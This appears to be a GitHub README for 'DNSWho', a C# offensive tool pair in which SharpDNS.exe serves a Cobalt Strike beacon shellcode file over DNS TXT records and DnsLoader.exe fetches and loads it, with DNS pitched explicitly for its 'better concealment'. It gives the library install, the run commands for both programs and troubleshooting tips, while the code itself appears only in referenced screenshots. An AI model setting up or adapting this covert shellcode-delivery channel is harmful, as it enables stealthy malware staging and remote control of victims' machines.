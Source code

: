 # DNSWho

Implement a dns server = SharpDNS.exe             
Implement a "client" = DnsLoader.exe               

Compared with the http protocol, the dns protocol has better concealment. Analogous to the dns beacon of cs, we can implement a dns server to transmit shellcode by ourselves. C# has an excellent third-party library [ARSoft.Tools.Net](https://www.nuget.org/packages/ARSoft.Tools.Net/). We can use it for dns query and self-built dns server.               

Create a new console project of .net4.0 and install ARSoft.Tools.Net. Because of the .net version problem, we need to install the lower version of ARSoft.Tools.Net.                              
[`Install-Package ARSoft.Tools.Net -Version 1.8.2`](https://www.nuget.org/packages/ARSoft.Tools.Net/1.8.2)         


![image](https://user-images.githubusercontent.com/25066959/104516114-d1b0b500-55c1-11eb-8bb5-98e9437d8775.png)             

![image](https://user-images.githubusercontent.com/25066959/104516517-78955100-55c2-11eb-99ce-2d8a5daf6e9a.png)

run `SharpDNS.exe beacon.bin`

![image](https://user-images.githubusercontent.com/25066959/104516603-a24e7800-55c2-11eb-9805-fc644b49b11b.png)

run `DnsLoader.exe <DNS> <CDN> 2000`

Note that the txt parsing of dns cannot be transmitted too much at a time, and the 2000 used in my test so that there is no problem.

![image](https://user-images.githubusercontent.com/25066959/104516478-61eefa00-55c2-11eb-90fd-74655d9c47fe.png)


![image](https://user-images.githubusercontent.com/25066959/104516815-f48f9900-55c2-11eb-8175-7df4d4bbaedf.png)



-----
If you get the following error this is because youre not running this on the same machine as your DNS. That is because svchost.exe listens to UDP53

![image](https://user-images.githubusercontent.com/25066959/104516892-1d179300-55c3-11eb-91e6-92c9c5aa2884.png)

Additionally dont try to change the port for the `DnsServer` because you cant:

![image](https://user-images.githubusercontent.com/25066959/104517202-9c0ccb80-55c3-11eb-895c-0d6ae9e45dd2.png)

![image](https://user-images.githubusercontent.com/25066959/104517231-ac24ab00-55c3-11eb-828e-7feb1e16d003.png)
